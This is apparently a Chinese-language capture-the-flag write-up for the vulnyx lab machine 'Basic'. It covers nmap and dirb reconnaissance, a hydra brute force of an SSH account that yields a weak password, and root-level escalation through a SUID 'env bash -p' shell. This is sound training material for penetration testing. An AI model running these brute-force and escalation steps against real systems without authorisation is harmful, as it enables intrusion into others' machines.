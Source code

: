 # 环境

来自[vulnyx_Basic](https://vulnyx.com/#Basic)

# 信息收集

## 主机发现

```bash
nmap -sn 192.168.88.0/24
```

![image-20240726170040105](image/image-20240726170040105.png)

## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.88.38
```

![image-20240726170111727](image/image-20240726170111727.png)

## 服务探测

```bash
sudo nmap -sV -sC -O -p22,80,631 192.168.88.38
```

![image-20240726170309509](image/image-20240726170309509.png)

两个http服务

## 目录扫描

```bash
dirb http://192.168.88.38
dirb http://192.168.88.38:631
```

# web渗透

访问80，只有测试页面，631是打印网站cups2.3.3，查找历史漏洞无果，找到一个账号，尝试爆破密码

![image-20240726173545037](image/image-20240726173545037.png)

## hydra破解ssh拿shell

```bash
hydra -l dimitri -P /usr/share/wordlists/rockyou.txt 192.168.88.38 ssh -t 60 -f
```

![image-20240726172606769](image/image-20240726172606769.png)

账号`dimitri`密码`mememe`

```bash
ssh dimitri@192.168.88.38
```

![image-20240726173652015](image/image-20240726173652015.png)

## 提权

```bash
sudo -l  #没有信息
find / -perm -4000 -exec ls -al {} \; 2>/dev/null
```

![image-20240726173738047](image/image-20240726173738047.png)

只能通过SUID提权，权限不是特别高

```bash
env bash -p
```

![image-20240726174219816](image/image-20240726174219816.png)
